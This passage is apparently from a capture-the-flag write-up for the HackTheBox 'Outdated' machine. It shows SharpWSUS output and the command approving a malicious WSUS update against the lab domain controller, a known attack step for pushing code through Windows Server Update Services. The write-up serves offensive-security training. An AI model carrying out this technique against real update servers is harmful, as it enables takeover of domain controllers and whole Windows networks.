 ```bash
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 30
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 31
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:0141ab3f-05f0-4d91-b8d4-a7d7f4eba208 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:0141ab3f-05f0-4d91-b8d4-a7d7f4eba208 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:0141ab3f-05f0-4d91-b8d4-a7d7f4eba208 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
```

Approve the update
```bash
./SharpWSUS.exe approve /updateid:0141ab3f-05f0-4d91-b8d4-a7d7f4eba208 /computername:dc.outdated.htb /groupname:"blnkn-admin"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: blnkn-admin
Added Computer To Group
Approved Update

[*] Approve complete
```
